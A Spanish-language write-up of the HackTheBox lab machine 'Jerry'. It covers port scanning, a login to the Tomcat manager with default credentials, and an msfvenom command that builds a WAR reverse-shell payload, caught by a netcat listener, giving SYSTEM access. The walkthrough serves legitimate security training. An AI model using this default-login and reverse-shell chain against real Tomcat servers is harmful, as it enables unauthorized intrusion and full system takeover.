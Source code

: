 ```yaml
---
title: HTB - Jerry
published: true
categories: [Windows]
tags: [eJPT, Fácil]
---
```


<img src="/assets/HTB/Jerry/jerry.png">

¡Hola!
Vamos a resolver de la máquina `Jerry` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **Information Leakage**
- **Abusing Tomcat [Intrusion & Privilege Escalation]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Jerry`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.95
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=42.3 ms

--- 10.10.10.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Windows** debido a su ttl (time to live) correspondiente a 127 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts

PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p8080 10.10.10.95 -oN targeted

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```
### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
❯ whatweb http://10.10.10.95:8080

http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]
```

Accedemos al servicio web por el puerto 8080 y vemos la página principal de un `Apache Tomcat`. Accediendo al login de manager y probando credenciales por defecto de Apache Tomcat `tomcat - s3cret` conseguimos acceso.

Observamos que tenemos la capacidad de subir archivos `WAR` por lo que procedemos a crear uno que nos entable una reverse shell con la heramienta `msfvenom`. Nos ponemos en escucha en el puerto 443, subimos el archivo y lo ejecutamos desde el panel de manager 


<img src="/assets/HTB/Jerry/war.png">


```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.60 LPORT=443 -f war -o shell.war
Payload size: 1093 bytes
Final size of war file: 1093 bytes
Saved as: shell.war
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.129.38.5] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
Mediante este exploit conseguimos acceso con usuario `nt authority\system` por lo que no precede escalada de privilegios

### Flags

* * *

Tras una búsqueda desde la raíz localizamos las flags en el directorio Desktop\flags del usuario Administrator. Con el comando `type` nos muestra el contenido

```bash
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,366,488,576 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0f****************

root.txt
04a8b36e1545a4553****************
```

Hemos completado la máquina **Jerry** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Jerry/pwned.png">
